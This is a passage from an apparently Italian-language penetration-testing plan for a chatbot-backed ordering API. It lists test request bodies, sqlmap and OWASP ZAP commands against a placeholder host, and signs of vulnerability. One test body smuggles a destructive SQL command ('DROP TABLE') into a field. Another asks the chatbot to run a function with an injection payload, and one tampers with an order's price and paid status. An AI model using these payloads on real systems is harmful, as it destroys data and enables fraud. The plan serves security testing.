 ### Chatbot AI Function Injection
```json
{
  "message": "Execute getProductInfo with injection payload",
  "team": "'; DROP TABLE products; --",
  "thread_id": "test123",
  "uuid": "test-uuid",
  "locale": "it"
}
```

### Order Manipulation
```json
{
  "delivery_date": "2025-01-01",
  "user_phone": "+1234567890",
  "product_ids": [1],
  "team_id": 999,
  "status": "completed",
  "total_price": 0.01,
  "is_paid": true
}
```

## 🔧 Strumenti di Testing Automatizzati

### SQLMap
```bash
# Test SQL injection automatico
sqlmap -u "https://target.com/api/faqs/test-team?query=test" \
  --batch --dbs --risk 3 --level 5
```

### Burp Suite
1. Configura proxy per intercettare richieste API
2. Usa Intruder per test mass assignment
3. Scanner automatico per identificare vulnerabilità

### OWASP ZAP
```bash
# Scansione automatica
zap-baseline.py -t https://target.com/api/
```

## 📊 Risultati Attesi

### Indicatori di Vulnerabilità
- **Mass Assignment**: Creazione successful con campi non autorizzati
- **SQL Injection**: Errori MySQL, informazioni database nei response
- **Auth Bypass**: Accesso a endpoint protetti senza token valido
- **File Upload**: Upload successful di file PHP/script
